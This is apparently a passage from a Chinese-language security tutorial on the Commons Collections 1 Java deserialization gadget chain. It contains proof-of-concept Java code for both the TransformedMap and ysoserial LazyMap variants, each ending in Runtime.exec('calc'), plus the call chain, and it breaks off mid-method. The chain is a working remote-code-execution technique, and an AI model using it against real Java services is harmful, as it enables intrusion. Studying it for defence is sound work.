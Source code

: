 ```bash
                new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})};
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);


        HashMap<Object, Object> map = new HashMap<>();
        map.put("value", "v");
        Map<Object, Object> transformedmap = TransformedMap.decorate(map, null, chainedTransformer);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ann = c.getDeclaredConstructor(Class.class, Map.class);
        ann.setAccessible(true);
        Object annIns = ann.newInstance(Target.class, transformedmap);
        serialize(annIns);
        unserialize("ser.bin");
    }
}
```

当我们上面简述的版本时国内大佬的版本，这个版本是通过 Transformedmap 类来调用 tranforms 方法的，

原始（ysoserial）版本时利用的`LazyMap.get()`，然后通过`readObject`里面调用代理类代理触发`annotationInvocation`类中的`invoke`方法

**调用链**

```bash
ObjectInputStream.readObject()
    AnnotationInvocationHandler.readObject()
        Map(Proxy).entrySet()
            AnnotationInvocationHandler.invoke()
                LazyMap.get()
                    ChainedTransformer.transform()
                        ConstantTransformer.transform()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Class.getMethod()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Runtime.getRuntime()
                        InvokerTransformer.transform()
                            Method.invoke()
                                Runtime.exec()
```

```bash
public static void main(String[] args) throws Exception {
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object, Object> Lazymap = LazyMap.decorate(map, chainedTransformer);


        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class, Map.class);
```